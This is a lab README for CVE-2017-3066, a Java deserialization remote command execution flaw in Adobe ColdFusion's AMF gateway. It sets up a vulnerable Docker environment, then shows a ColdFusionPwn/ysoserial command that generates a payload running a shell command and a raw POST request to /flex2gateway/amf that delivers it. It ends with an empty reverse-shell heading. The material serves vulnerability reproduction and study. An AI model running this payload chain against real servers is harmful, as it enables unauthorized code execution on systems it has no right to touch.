

# Adobe ColdFusion AMF Deserialization Remote Command Execution (CVE-2017-3066)

[中文版本(Chinese version)](README.zh-cn.md)

Adobe ColdFusion is a commercial rapid web-application development computing platform created by J. J. Allaire in 1995.

Adobe ColdFusion 2016 Update 3 and earlier, ColdFusion 11 update 11 and earlier, ColdFusion 10 Update 22 and earlier have a Java deserialization vulnerability in the Apache BlazeDS library. Successful exploitation could lead to arbitrary code execution.

参考链接：

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html
- https://www.exploit-db.com/exploits/43993
- https://github.com/codewhitesec/ColdFusionPwn

## Vulnerable environment

Start a Adobe ColdFusion 11 update 3:

```
docker-compose up -d
```

After a few minutes wait, visit `http://your-ip:8500/CFIDE/administrator/index.cfm` with password `vulhub`, you can install the Adobe ColdFusion successfully.

## Exploit

Generate a POC via [ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn) in the `poc.ser`:

```
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/success' poc.ser
```

Send the request to `http://your-ip:8500/flex2gateway/amf`, which contains the `application/x-amf` Content-Type and POC within the body:

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```



`/tmp/success` is successfully created:


Get a reverse shell:


